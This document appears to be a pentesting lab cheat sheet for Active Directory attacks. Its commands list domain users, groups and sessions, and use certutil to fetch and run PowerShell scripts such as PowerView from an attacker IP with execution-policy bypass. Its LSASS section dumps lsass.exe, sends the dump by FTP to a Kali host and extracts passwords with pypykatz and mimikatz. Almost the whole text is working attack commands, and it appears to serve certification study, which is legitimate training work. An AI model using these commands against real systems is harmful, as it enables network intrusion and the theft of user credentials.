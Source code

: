 # Remote Desk Top
specifying domain with <code>-d</code> flag may be important
```rdesktop -d corp -u offsec -p lab 192.168.160.10```


# Domain Name and Domain Controller Name
## Show Domain-Name And Windows-User-Name
```set user```
(Domain-Name = USERDOMAIN, USERNAME = Windows-Users-Name)

## Show Domain-Controller's Name And Domain-Name
```powershell [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()```


# Users And Groups
## List Local Accounts
```net user ```

## List All Users In Domain
```net user /domain```

## Show Each User's Info
```net user <username> /domain```

## List All Groups In Domain
```net group /domain```


# Enum All Users And Services
(certutil -URLcache -f http://<Kali's IP>/enum_users.ps1 enum_users.ps1)
```PS > powershell -ep bypass .\enum_users.ps1```



# Curret Logged In Users And Active Sessions

(certutil -URLcache -f http://192.168.119.160/PowerView.ps1 PowerView.ps1)
```PS> powershell -ep bypass Import-Module .\PowerView.ps1```

(Computer name "client251", "hostname" command tells you your computer name)

## Show Current Logged In Users
```PS> Get-NetLoggedon -ComputerName client251```

## Show All Activated Sessions
```PS> Get-NetSession -ComputerName dc01  (Probably, dc01 is Doamin Controller (it's ok not to specify "dc01"))```


# LSASS Attack

## TaskManager
On Windows machine (that's to say open the Windows OS by remote desktop):
 start -> WindowsSystem -> taskmanager -> Details -> right click the lsass.exe -> Create dump file (e.g. C:\Users\admin\AppData\Local\Temp\lsass.DMP)

At command prompt:
```> ftp <kali IP address>
ftp> bin
ftp> put lsass.DMP
```

On Kali terminal:
```$ pypykatz lsa minidump lsass.DMP```

## <Mimikatz>
```
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```

[*]Try both TaksManager way and Mimikatz way. They probably result in different.
